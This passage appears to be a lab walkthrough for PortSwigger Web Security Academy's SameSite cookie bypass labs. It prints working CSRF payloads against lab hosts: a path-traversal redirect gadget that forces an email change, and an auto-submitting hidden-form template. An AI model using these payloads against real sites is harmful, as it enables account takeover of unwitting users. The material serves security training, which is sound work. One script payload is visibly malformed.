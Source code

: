 - payload3 (append the change email request):
```
post/comment/confirmation?postId=../my-account/change-email?email=paein%40web-security-academy.net&submit=1"
```

`/change-email?email=paein%40web-security-academy.net&submit=1"` is taken from the POST change email request page

- payload4 (URL encode the value of the '&' which is %26):
```
post/comment/confirmation?postId=../my-account/change-email?email=paein%40web-security-academy.net%26submit=1" 
```

- final script payload (append the host https://HOST/POST)
```
<script>
document.location=https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=paein%40web-security-academy.net%26submit=1" 
</script>
```

## **9. SameSite Lax bypass via cookie refresh
##### Study the change email function
1. In Burp's browser, log in via your social media account and change your email address.
2. In Burp, go to the **Proxy > HTTP history** tab.
3. Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass any SameSite cookie restrictions.
4. Look at the response to the `GET /oauth-callback?code=[...]` request at the end of the [OAuth](https://portswigger.net/web-security/oauth) flow. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.

##### Attempt a CSRF attack

1. In the browser, go to the exploit server.
2. Use the following template to create a basic CSRF attack for changing the victim's email address:
```
<script>
    history.pushState('', '', '/')
</script>

<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>

<script>
    document.forms[0].submit();
</script>
```
